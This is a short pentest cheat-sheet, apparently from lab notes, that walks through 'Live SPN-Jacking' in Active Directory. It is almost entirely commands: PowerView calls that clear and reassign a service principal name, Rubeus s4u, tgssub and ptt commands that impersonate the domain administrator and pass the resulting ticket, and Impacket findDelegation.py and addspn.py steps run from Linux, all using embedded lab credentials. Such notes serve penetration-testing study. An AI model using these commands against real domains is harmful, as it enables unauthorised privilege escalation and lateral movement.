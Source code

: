 ### <mark style="color:yellow;">Live SPN-Jacking</mark>&#x20;

Start with looking for a  SPN to abuse, clear it and reassign.

```powershell
# List SPNs
Get-DomainComputer DBSRV003 -Properties 'serviceprincipalname' | Select-Object -ExcludeProperty serviceprincipalname

# Clear SPN 
Set-DomainObject -Identity DBSRV003 -Clear 'serviceprincipalname' -Verbose

# Assign SPN
Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='dmserver/DBSRV003'} -Verbose
```

Then request a ticket using Rubeus

```powershell
.\Rubeus.exe s4u /domain:zencorp.local /user:SRV01$ /rc4:ef3d150ee77eb9000001236c52bd2793 /impersonateuser:administrator /msdsspn:"dmserver/DBSRV003" /nowrap
```

Again because of the service name on ticket incorrect we have to change the service name and host name.&#x20;

```powershell
.\Rubeus.exe tgssub /ticket:doIGtDCCBrCgAwIBBaEDAgEWooIF<SNIP> /altservice:HTTP/WEB01 /nowrap
```

And finally pass the ticket

```powershell
# Pass the ticket
.\Rubeus.exe ptt /ticket:doIGpjCCBqKgAwIBBaEDAgEWooIFsTCCBa1h<SNIP>

# New PowerShell Session
Enter-PSSession -ComputerName WEB01
```

### <mark style="color:yellow;">Live SPN Jacking from Linux</mark>

First look for accounts with Constrained Delegation rights.

```bash
findDelegation.py -target-domain zencorp.local -dc-ip 172.16.92.10 -dc-host dc02 zencorp.local/gabriel:Godisgood001
```

Use addspn.to clear the SPN

```bash
python3 addspn.py 172.16.92.10 -u 'zencorp.local\gabriel' -p Godisgood001 --clear -t 'DBSRV003$' -dc-ip 172.16.92.10
```
